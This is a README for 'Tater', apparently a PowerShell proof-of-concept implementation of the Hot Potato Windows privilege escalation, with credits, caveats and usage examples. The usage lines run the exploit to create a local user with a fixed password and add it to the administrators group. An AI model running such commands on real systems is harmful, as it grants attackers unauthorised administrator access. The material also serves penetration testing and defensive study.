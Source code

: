 # Tater
Tater is a PowerShell implementation of the Hot Potato Windows Privilege Escalation without any external libraries. This is mainly pieced together from existing Inveigh code.   

# Credit
All credit goes to @breenmachine, @foxglovesec, Google Project Zero, and anyone else that helped work out the details for this exploit.  
 
Potato - https://github.com/foxglovesec/Potato   

# Notes
Use caution, this is still very much in a proof of concept stage. It’s only been tested on Windows 7. It’s also still missing a lot of the features in Potato.exe.   
The most likely thing to go wrong is that the HTTP listener will not give port 80 without closing out your PowerShell process.   

# Usage
To import with Import-Module:   
Import-Module ./Tater.ps1   

To import using dot source method:   
. ./Tater.ps1  
 
Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add"   

Invoke-Tater -Command "net user tater Winter2016 /add && net localgroup administrators tater /add" –RunTime 10   
